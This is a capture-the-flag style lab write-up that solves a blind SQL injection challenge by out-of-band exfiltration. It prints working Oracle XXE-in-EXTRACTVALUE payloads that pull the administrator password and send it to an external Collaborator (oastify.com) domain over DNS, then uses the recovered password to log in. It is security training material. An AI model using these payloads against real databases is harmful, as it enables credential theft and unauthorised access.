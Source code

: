 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/235475304-83ec97d9-8d66-468f-9987-1d10093b072b.png)


## Solution :

Cheatsheet to exfiltrate data using OAST technique,

![image](https://user-images.githubusercontent.com/67383098/235475545-7e0c4eb8-4c6e-41d1-8ce3-e14a21837edc.png)

We don't know which db we are dealing with here, so we use each command to find which version od db it is & exfiltrate data.

Captured request look like this,

![image](https://user-images.githubusercontent.com/67383098/235475811-9257d816-28c5-4642-8769-a7602364542e.png)

The query looks something like this ,

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual 

Open Collaborator client and copy the DNS server name to clipboard.

![image](https://user-images.githubusercontent.com/67383098/235476323-74407d28-bbd7-446c-90c5-0bf3f677af7d.png)


Use the payload 

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.lazmp4d5y0qtjw8xusp7kc4i0960up.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

So the entire query which will be made will be like ,

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.lazmp4d5y0qtjw8xusp7kc4i0960up.oastify.com/"> %remote;]>'),'/l') FROM dual--
```


Once we get a `200 OK` response click `Poll now` and we get 4 DNS request which were made to our server.

![image](https://user-images.githubusercontent.com/67383098/235477045-3976e21b-30f1-4172-8e7e-894ebd959554.png)

Open one of the requests & we get the password of the user admin - `3eqpnz5t53o1en19b4qi`

Now we can log in as administrator using the passwrod which we got,

![image](https://user-images.githubusercontent.com/67383098/235477465-fee54da3-d819-42cc-94e1-99f77adb399f.png)
